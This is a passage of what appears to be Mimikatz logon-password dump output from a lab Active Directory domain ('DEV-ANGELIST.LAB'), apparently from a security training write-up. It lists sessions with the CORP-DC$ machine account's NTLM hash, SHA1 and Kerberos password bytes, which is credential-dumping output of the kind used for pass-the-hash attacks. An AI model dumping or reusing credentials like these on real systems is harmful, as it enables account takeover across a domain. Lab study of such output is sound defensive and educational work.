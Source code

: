 ```
        kerberos :
         * Username : corp-dc$
         * Domain   : DEV-ANGELIST.LAB
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 28976 (00000000:00007130)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 5/31/2025 11:42:19 AM
SID               : S-1-5-96-0-1
        msv :
         [00000003] Primary
         * Username : CORP-DC$
         * Domain   : DEV-ANGELIST
         * NTLM     : 11bc07660f7c9a2d8f7cead855b8c72b
         * SHA1     : 31564384304c59f6108021d2d7ae67f6dab91dfc
        tspkg :
        wdigest :
         * Username : CORP-DC$
         * Domain   : DEV-ANGELIST
         * Password : (null)
        kerberos :
         * Username : CORP-DC$
         * Domain   : dev-angelist.lab
         * Password : e8 f2 da 01 eb d3 35 6d 27 73 f8 7c 18 62 4f c7 72 b0 7e 47 43 3b e4 8c ac f5 fc 8b d7 8d 95 be 27 ed 3e 29 4b bb 1d d8 6b 31 10 06 10 29 6c d5 cf e8 65 58 91 12 da d5 c0 a0 58 c0 f6 02 51 3b a3 0c 3b f9 2e d3 ee d0 de 8b aa 71 b9 63 99 89 37 b4 7c 99 88 09 5f a8 2c c6 fc 3e b2 f8 f8 38 e4 45 16 03 43 27 bc 5e 9a 96 7e 2b 99 71 71 64 74 3b b9 c4 1a 1b 51 06 17 2e 13 a1 de 06 8d 3e 1e c4 a5 7a 7f ba 95 c5 4d 20 97 a4 d2 1f 1c 9b ff c3 85 2b a3 15 98 cc e2 9a cb 9f cc 1c 42 da ae a3 d0 d8 d1 da 50 00 6d f7 ad 92 f7 a3 40 63 35 b2 b4 b0 6f e8 0c 92 87 c0 82 b7 c0 7a dd a9 82 d9 c9 8f 8e f8 5b a3 d7 4f 2c 5f 83 81 f6 9e 64 35 d1 fe fa 12 59 b9 86 59 25 27 42 c1 72 7d 8a fe c5 66 e5 5c ae 01 05 75 1d 74 6f b6 b0 29
        ssp :
        credman :

Authentication Id : 0 ; 26207 (00000000:0000665f)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 5/31/2025 11:42:17 AM
SID               :
        msv :
         [00000003] Primary
         * Username : CORP-DC$
         * Domain   : DEV-ANGELIST
         * NTLM     : 11bc07660f7c9a2d8f7cead855b8c72b
         * SHA1     : 31564384304c59f6108021d2d7ae67f6dab91dfc
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 995 (00000000:000003e3)
Session           : Service from 0
User Name         : IUSR
Domain            : NT AUTHORITY
Logon Server      : (null)
```